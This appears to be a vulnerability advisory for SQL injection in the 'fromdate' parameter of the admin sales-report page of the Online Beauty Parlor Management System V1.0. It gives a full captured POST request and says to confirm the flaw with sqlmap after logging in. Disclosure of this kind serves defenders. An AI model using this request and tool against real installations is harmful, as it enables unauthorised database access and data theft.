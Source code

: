 Online Beauty Parlor Management System - SQL Injection on (/admin/Online Beauty Parlor Management System - SQL Injection on (/admin/sales-reports-detail.php fromdate parameter) 

Vendor Homepage:

```
https://www.campcodes.com/projects/online-beauty-parlor-management-system/
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
admin/sales-reports-detail.php
```

On this page, `fromdate` parameter is vulnerable to SQL Injection Attack


Proof of vulnerability(Verify using the sqlmap tool after logining):

Request:

```
POST /bpms/admin/sales-reports-detail.php HTTP/1.1
Host: localhost
Content-Length: 449
Cache-Control: max-age=0
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZLoOf7yh0UajdHsN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bpms/admin/sales-reports.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=35oep1of4pinmqsin6t7o6nae7
Connection: keep-alive

------WebKitFormBoundaryZLoOf7yh0UajdHsN
Content-Disposition: form-data; name="fromdate"

2025-09-16
------WebKitFormBoundaryZLoOf7yh0UajdHsN
Content-Disposition: form-data; name="todate"

2025-09-30
------WebKitFormBoundaryZLoOf7yh0UajdHsN
Content-Disposition: form-data; name="requesttype"

mtwise
------WebKitFormBoundaryZLoOf7yh0UajdHsN
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryZLoOf7yh0UajdHsN--

```

<img width="980" height="642" alt="image" src="https://github.com/user-attachments/assets/d85277ef-4048-470b-9f50-704680d907f1" />



